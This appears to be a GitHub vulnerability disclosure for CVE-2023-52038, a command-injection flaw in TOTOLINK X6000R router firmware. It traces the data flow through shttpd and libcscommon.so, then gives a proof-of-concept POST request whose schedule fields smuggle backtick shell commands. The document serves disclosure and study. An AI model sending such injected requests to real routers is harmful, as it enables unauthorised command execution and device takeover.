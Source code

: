 # TOTOLINK X6000R Command Execution Vulnerability

## Product infomation

Vendor of the product: https://www.totolink.net/

Product version: X6000R_Firmware V9.4.0cu.852_B20230719

Firmware download address: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

## vulnablitity overview

In TOTOLINK X6000R V9.4.0cu.852_B20230719, the executable program shttpd’s sub_415C80 function obtains a string through the Uci_Set_Str function without checking it, and passes it to the CsteSystem function, causing a command execution vulnerability.

## Analyse

In the binary file shttp, the function sub_415C80 gets the mode, week, hour and other parameters, and then passes them to the Uci_Set_Str.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img1.png" alt="img1" style="zoom:80%;" />

In the binary file libcscommon.so, the function Uci_Set_Str calls the CsteSystem.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img2.png" alt="img2" style="zoom:80%;" />

In CsteSytem, the command will be executed directly.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img3.png" alt="img3" style="zoom:80%;" />

## Exploit

Access the web page that contains vulnerability and use Fiddler to capture packets.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img4.png" alt="img4" style="zoom:80%;" />

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img5.png" alt="img5" style="zoom:80%;" />

Replay after modifying the parameters of the traffic packet

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img6.png" alt="img6" style="zoom:80%;" />

poc

```html
POST http://192.168.10.2/cgi-bin/cstecgi.cgi HTTP/1.1
Host:192.168.10.2
User-Agent:Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept:application/json, text/javascript, */*; q=0.01
Accept-Language:en-US,en;q=0.5
Accept-Encoding:gzip, deflate
Content-Type:application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With:XMLHttpRequest
Origin:http://192.168.10.2
Connection:keep-alive
Referer:http://192.168.10.2/advance/schedule.html

{"mode":"`ls > /0.txt`","hour":"`ls > /1.txt`","minute":"`ls > /2.txt`”, "week":"`ls > /3.txt`","recHour":"`ls > /4.txt`","topicurl":"setScheduleCfg"} 
```

before execute

![img7](https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img7.png)

after execute

![img8](https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img8.png)

The command was successfully executed.



## CVE-2023-52038
